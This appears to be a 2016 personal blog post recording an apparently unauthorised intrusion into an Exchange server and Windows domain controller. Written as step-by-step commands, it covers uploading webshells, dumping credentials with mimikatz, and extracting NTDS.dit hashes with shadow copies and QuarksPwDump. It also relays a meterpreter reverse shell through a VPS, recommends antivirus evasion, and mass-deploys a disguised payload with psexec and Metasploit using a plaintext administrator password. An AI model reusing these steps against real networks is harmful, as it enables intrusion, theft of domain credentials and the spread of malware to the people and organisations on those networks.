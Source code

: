 ```yaml
---
layout:     post
title:      windows 2008 domain controllers
date:       2016-05-09
summary:    first time to get a domain controllers,this is not workgroup,but dc
categories: web
tags:
 - doamin controllers
 - inside network
 - aspx
 - exchange server
 - outlook
---
```


### 0x01 upload backup webshells

```
1.there exists a webshell upload by someone else:https://xx.oo.xx/owa/auth/error1.aspx
2.webshell in different folder has different privileges
    https://xx.oo.xx/aspnet_client/system_web/2_0_50727/some.aspx      C:\inetpub\wwwroot\> whoami ---> iis apppool\defaultapppool
    https://xx.oo.xx对应C:\inetpub\wwwroot\      目录下(index.html)   iis权限
    https://xx.oo.xx/owa/auth/some.aspx    C:\inetpub\wwwroot\> whoami ---> nt authority\system
    https://xx.oo.xx/owa/对应C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\ 目录 system权限
3.upload a strong webshell but found "/" error
    aspx大马连接报错"/"解决方法:https://www.asp-muma.com/?post=97
    my way defferent from uppon one:
    create a new folder,create a web.config file with below content:
    --------------------------content------------------------
    <configuration>
        <system.web>
            <customErrors mode="Off"/>
        </system.web>
    </configuration>
    --------------------------end of content----------------
    then upon a strong webshell to my new created folder,found no more error.
4.different parse 
    C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\xxoo\xxoo\大马.aspx is ok to parse
    C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\xxoo\xxoo\一句话.aspx is not ok to parse
    C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\一句话.aspx is ok to parse
    C:\Program Files\Microsoft\Exchange Server\V14\ClientAccess\Owa\auth\一句话.aspx is ok to parse
    C:\inetpub\wwwroot\大马.aspx is not ok to parse before my "adding a new web.config" way in upon 3
    C:\inetpub\wwwroot\一句话.aspx is ok to parse,with iis pri
```

### 0x02 find domain controllers and dc administrator username & password
    https://drops.wooyun.org/tips/421 
        dsquery server(best)
        nslookup -type=SRV _ldap._tcp.baidu.com(baidu.com is a domain name,others should be like xxx.org.xx)
        netdom query fsmo

    mimikatz
        log
        privilege::debug
        sekurlsa::logonpasswords

    at 23:0 /every:m,t,w,th,f,s,su "d:\1.bat"
    d:\1.bat:
    "C:\recycler\srclog.exe" -w >> "C:\recycler\test.txt"

### 0x03 get all hashs in the domain controllers machine
    link a:
        https://drops.wooyun.org/tips/6617
    link b:
        https://blogs.msdn.microsoft.com/adioltean/2005/01/05/script-recipe-of-the-week-how-to-copy-an-opened-file/
    *attention*:
        in link a,the script name to use shadowcopy is vsshadow.exe
        in link b,the script name to use shadowcopy is vshadow.exe
    I get vshadow.exe from installing https://www.microsoft.com/en-us/download/confirmation.aspx?id=23490,then search vshadow.exe in the system,this is a quick link:
        https://pan.baidu.com/s/1cMC07W
    there are three files:shadowcopy_ntds.bat,quarkspwdump.exe(v0.2b),vshadow.exe
    step0:
        upload these three files to target machine's folder,eg. c:\windows\myfolder\
    step1:
        shadowcopy_ntds.bat c:\windows\ntds\ntds.dit c:\windows\myfolder\ntds.dit
        (this shadowcopy_ntds.bat is from link b,it can copy any file while the file is being used)
    step2:
        esentutl /p /o ntds.dit
    step3:
        QuarksPwDump.exe --dump-hash-domain -with-history -nt c:\windows\ntds\ntds.dit -o c:\windows\myfolder\log.txt
        (or quarkspwdump.exe --dump-hash-domain -hist -nt c:\windows\ntds\ntds.dit -o c:\windows\myfolder\log.txt)
        the origin commands from link a is "QuarksPwDump.exe -dhb -hist -nt ntds.dit -o log.txt",which proved wrong with my quarkspwdump.exe file

### 0x04 get a meterpreter reverse shell
    1.found windows firewall is not open on the target,but "in/out rules exists"
    2.found reverse port like 200 can not get it successfully
    3.can not find why the meterpreter shell can not reverse connecting msf successfully
    4.do these to get meterpreter reverse shell
        target:run reverse_shell.exe(set reverse port to 53)
        vps:lcx -listen 300 53
        local pc:msf-->set lport 300-->set rhost vps's ip
    5.found 53 is ok
    6.better to use shellter to supass avkiller

### 0x05 批量种马
    1>psexec.exe @pc.txt -u ABIMAQ\Administrator -p k78m90 -c c:\recycler\putty.exe
    2>msf
        use exploit/windows/smb/psexec
        set EXE::Custom /root/桌面/putty.exe
        set RHOST -> use armitage to choose pc.txt(192.168.11.1,192.168.11.2,etc)
        exploit
    3>msf seems better than psexec.exe
